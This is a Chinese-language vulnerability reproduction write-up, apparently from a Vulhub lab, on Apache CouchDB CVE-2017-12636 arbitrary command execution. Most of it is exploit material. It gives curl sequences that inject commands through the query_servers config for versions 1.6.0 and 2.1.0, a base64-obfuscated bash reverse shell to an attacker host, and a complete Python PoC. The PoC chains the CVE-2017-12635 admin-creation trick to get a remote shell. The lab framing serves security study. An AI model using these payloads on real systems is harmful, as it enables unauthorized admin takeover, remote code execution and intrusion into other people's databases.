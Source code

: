 # Apache CouchDB 任意命令执行漏洞 CVE-2017-12636

## 漏洞描述

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

参考链接：

- http://bobao.360.cn/learning/detail/4716.html
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 漏洞影响

```
Couchdb 小于 1.7.0 以及 小于 2.1.1
```

## 环境搭建

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动CVE-2017-12635附带的环境。

Vulhub执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:5984/`即可看到Couchdb的欢迎页面。

## 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用CVE-2017-12635先增加一个管理员用户。

### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

![image-20220222104917650](images/202202221049822.png)

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

查看`/tmp/success`文件内容：

![image-20220222104941298](images/202202221049362.png)

### 2.1.0 下的说明

2.1.0中修改了上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![image-20220222101400236](images/202202221014285.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![image-20220222101444275](images/202202221014315.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

![image-20220222101810195](images/202202221018281.png)

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令，`/tmp/success`文件夹被成功创建。

![image-20220222102002703](images/202202221020820.png)

### 1.6.0下反弹shell

curl 调用字符串需要用 `'`或`"`；json 需要 `"`，bash -c 的字符串需要 `'`或`"`，因此可以将反弹 shell 的语句写在文本shell.txt里面，然后通过 curl 调用shell.txt。

```
$ vim shell.txt
文件内容："bash -c '{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzQuMTI4Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'"
```

依次执行如下请求即可触发反弹shell：

```
# 第一步：-d参数读取本地文本文件的数据，向服务器发送
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/_config/query_servers/cmd' -d '@shell.txt'

# 第二步：添加Database
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest'

# 第三步：添加Document
curl -X PUT 'http://vulhub:vulhub@192.168.174.128:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

# 进行查询，将language设置为cmd，这里就会用到第一步里添加的名为cmd的query_servers，最后触发命令执行
curl -X POST 'http://vulhub:vulhub@192.168.174.128:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

## 漏洞POC

1.6.0或2.1.0下反弹shell的poc

```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://192.168.174.128:5984'
command = rb"""sh -i >& /dev/tcp/192.168.174.128/9999 0>&1"""

# Change Version Here
version = 2

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

成功反弹shell

![image-20220222104008354](images/202202221040431.png)


